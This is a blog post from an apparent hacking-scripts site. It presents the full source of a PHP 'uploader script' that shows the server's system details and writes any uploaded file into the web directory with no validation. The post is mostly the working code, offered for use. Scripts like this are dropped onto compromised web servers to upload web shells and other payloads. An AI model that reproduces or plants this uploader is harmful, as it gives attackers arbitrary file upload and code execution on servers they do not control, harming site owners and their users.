 ```yaml
---
id: 66
title: Uploader Script
author: admin
layout: post
guid: http://hackingscripts.com/?p=66
permalink: /uploader-script/
categories:
  - PHP
  - Upload
tags:
  - PHP
  - uploader
---
```

This is a very basic uploader script, which simply enables the user to upload whatever they want to the server.


### Uploader Script Source Code

{% highlight php linenos %}<?php
echo '&lt;b&gt;&lt;br&gt;&lt;br&gt;'.php_uname().'&lt;br&gt;&lt;/b&gt;';
echo '&lt;form action="" method="post" enctype="multipart/form-data" name="uploader" id="uploader"&gt;';
echo '&lt;input type="file" name="file" size="50"&gt;&lt;input name="_upl" type="submit" id="_upl" value="Upload"&gt;&lt;/form&gt;';
if( $_POST['_upl'] == "Upload" ) {
    if(@copy($_FILES['file']['tmp_name'], $_FILES['file']['name'])) { echo '&lt;b&gt;Upload SUKSES !!!&lt;/b&gt;&lt;br&gt;&lt;br&gt;'; }
    else { echo '&lt;b&gt;Upload GAGAL !!!&lt;/b&gt;&lt;br&gt;&lt;br&gt;'; }
}
?>
{% endhighlight %}


### Uploader Script Screenshot

[<img src="{{ site.baseurl }}/wp-content/uploads/2014/01/uploader.png" alt="uploader script screenshot" width="495" height="108" class="aligncenter size-full wp-image-333" />][1]

 [1]: {{ site.baseurl }}/wp-content/uploads/2014/01/uploader.png